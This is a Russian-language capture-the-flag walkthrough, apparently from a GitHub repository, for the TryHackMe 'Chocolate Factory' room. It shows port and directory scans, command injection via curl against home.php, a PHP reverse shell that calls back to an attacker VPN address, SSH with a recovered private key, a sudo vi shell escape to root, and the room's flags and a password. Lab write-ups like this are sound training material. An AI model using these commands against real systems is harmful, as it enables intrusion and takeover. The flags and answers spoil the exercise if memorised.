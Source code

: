 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Chocolate Factory](https://tryhackme.com/r/room/chocolatefactory)

Всего 2 задания:
## Задание 1
 Добро пожаловать на шоколадную фабрику Вилли Вонки!

Эта комната была спроектирована так, чтобы хакеры могли снова посетить шоколадную фабрику Вилли Вонки и встретиться 
с Умпа Лумпой. 

Это комната, подходящая для новичков!

### Ответьте на вопросы ниже
Разверните машину!
```commandline
Ответ не нужен
```

## Задание 2
### Ответьте на вопросы ниже
Введите найденный вами ключ!

```commandline
sudo nmap -p- -n <ip-адрес машины>
nmap --script=баннер <ip-адрес машины> -p21-125 -v
nc <ip-адрес машины> 113
sudo gobuster dir -u http://<ip-адрес машины>/ -w /home/prowl/SecLists/Discovery/Web-Content/big.txt -x txt,php,py,sh -o dir_brute
```
Очевидно, что наиболее перспективным является файл , home.php поскольку он позволяет выполнять команды:
```commandline
http://<IP>/home.php
cd /home/ && ls -al
```
в /home есть два каталога: один — root, а другой — charlie. перейдем в /var/www/html и посмотрим, нет ли там 
чего-нибудь скрытого. 
```commandline
cd /var/www/html && ls -al
or
curl -s -XPOST -d "command=ls%20-l" http://<IP>/home.php

cat key_rev_key
strings key_rev_key
chmod 777 kye_rev_key
./key_rev_key
# laksdhfas
```

```commandline
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
```
Какой пароль у Чарли?
```commandline
curl -s -XPOST -d "command=cat%20validate.php" http://<IP>/h<html>p
```
```commandline
cn7824
```
изменить пользователя на charlie
```commandline
http://<IP>/home.php
php -r '$sock=fsockopen("your-vpn-ip",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
nc -lvnp 4444
cd /home/charlie
ls
cat teleport
chmod 600 id_rsa_file
ssh -i id_rsa_file charli@<IP>
```
```commandline
Ответ не нужен
```
Введите флаг пользователя
```commandline
cat user.txt
```
```commandline
flag{cd5509042371b34e4826e4838b522d2e}
```
Введите корневой флаг
```commandline
sudo -l
sudo  vi  -c ':!/bin/sh'  /dev/null
cd /root
ls
cat root.py
```
Используя наш полученный ключ из двоичного файла «key_rev_key», мы можем запустить скрипт Python, введя нужный ключ, 
который мы нашли. 
```commandline
python root.py
```
```commandline
flag{cec59161d338fef787fcb4e296b42124}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)